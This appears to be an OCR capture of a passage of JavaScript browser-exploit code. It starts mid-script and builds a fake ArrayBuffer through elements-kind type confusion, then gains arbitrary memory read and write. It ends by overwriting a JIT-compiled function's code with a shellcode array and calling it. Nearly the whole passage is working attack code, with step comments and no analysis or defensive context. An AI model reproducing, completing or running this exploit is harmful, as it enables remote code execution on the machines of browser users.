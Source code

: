 ```
var ab_map_obj_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(ab_map_obj,ab_map_obj_float);
/******************************* step 2    read fake_ab_map_ address   ***************************************/
change_elements_kind_parameter(evil4,ab_map_obj_float);
ab_map_obj_addr = u2d(e4())+0x40;
var fake_ab = [
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	0x0,0x4000, /* buffer length */
	0x12345678,0x123,/* buffer address */
	0x4,0x0
]
var fake_ab_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(fake_ab,fake_ab_float);
/******************************* step 3    read fake_ArrayBuffer_address   ***************************************/
change_elements_kind_parameter(evil4,fake_ab_float);
fake_ab_float_addr = u2d(e4())+0x40;
/******************************* step 4 fake a ArrayBuffer   ***************************************/
fake_ab_float_addr_f = d2u(fake_ab_float_addr / 0x100000000,fake_ab_float_addr & 0xffffffff).toString();
eval('function e3(){  evil3[1] = '+fake_ab_float_addr_f+';}')
for(var i = 0;i<0x6000;i++){
	e3();
}
change_elements_kind_array(evil3);
e3();
fake_arraybuffer = evil3[1];
if(fake_arraybuffer instanceof ArrayBuffer == true){
}
fake_dv = new DataView(fake_arraybuffer,0,0x4000);
/******************************* step 5 Read a Function Address   ***************************************/
var func_body = "eval('');";
var function_to_shellcode = new Function("a",func_body);
change_elements_kind_parameter(evil4,function_to_shellcode);
shellcode_address_ref = u2d(e4()) + 0x38-1;
/**************************************  And now,we get arbitrary memory read write!!!!!!   ******************************************/
	function Read32(addr){
		fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
		return fake_dv.getUint32(0,true);
	}
	function Write32(addr,value){
		fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
		alert("w");
		fake_dv.setUint32(0,value,true);
	}
	shellcode_address = Read32(shellcode_address_ref) + Read32(shellcode_address_ref+0x4) * 0x100000000;;
	var addr = shellcode_address;
	fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
	for(var i = 0; i < shellcode.length;i++){
		var value = shellcode[i];
		fake_dv.setUint32(i * 4,value,true);
	}
	alert("boom");
	function_to_shellcode();
</script>
```